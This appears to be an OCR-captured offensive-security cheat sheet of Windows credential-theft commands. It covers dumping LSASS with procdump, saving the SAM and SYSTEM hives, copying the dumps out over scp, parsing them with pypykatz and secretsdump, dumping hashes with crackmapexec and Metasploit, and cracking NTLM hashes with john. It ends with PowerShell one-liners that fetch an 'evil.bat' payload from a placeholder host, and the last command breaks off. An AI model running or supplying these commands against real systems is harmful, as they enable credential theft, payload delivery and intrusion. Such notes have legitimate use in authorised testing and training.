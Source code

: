 ```
1abb67a2890554c8506e0a82869392b1

*procdump and sharpdump*

cd 

procdump64.exe -accepteula -r -ma lsass.exe lsass.dmp

scp eve@demo:C:/Users/eve/creds/lsass.dmp /opt/kinetic/creds/lsass.dmp

pypykatz lsa minidump /tmp/lsass.dmp

*Reg saving*

reg save hklm\sam C:\Users\eve\creds\sam

reg save hklm\system C:\Users\eve\creds\system

scp eve@demo:C:/Users/eve/creds/system /opt/kinetic/creds/system

scp eve@demo:C:/Users/eve/creds/sam /opt/kinetic/creds/sam

pypykatz registry /opt/kinetic/creds/system --sam /opt/kinetic/creds/sam

*Task Manager*

Details >> Right click lsass.exe >> Create dump file

*cme*

crackmapexec smb demo -u eve -p eve --local-auth --sam

*crack ntlm*

john --format=nt  pass-eve.txt -w=/opt/kinetic/creds/pass/lst

*secrets dump*

python3 secretsdump.py kinetic/kram@polar

*Metasploit*

use post/windows/gather/smart_hashdump

## Moving files

powershell Invoke-WebRequest -uri 
http://xxx/kinetic/evil.bat
 -outfile C:\ProgramData\evil.bat

powershell wget 
http://xxx/kinetic/evil.bat
 -OutFile C:\ProgramData\evil.bat

powershell iwr -uri 
http://xxx/kinetic/evil.bat
 -outfile C:\ProgramData\evil.bat

powershell Invoke-RestMethod -Uri 
http://xxx/kinetic/evil.bat
 -OutFile C:\ProgramData\evil.bat

powershell irm -Uri 
```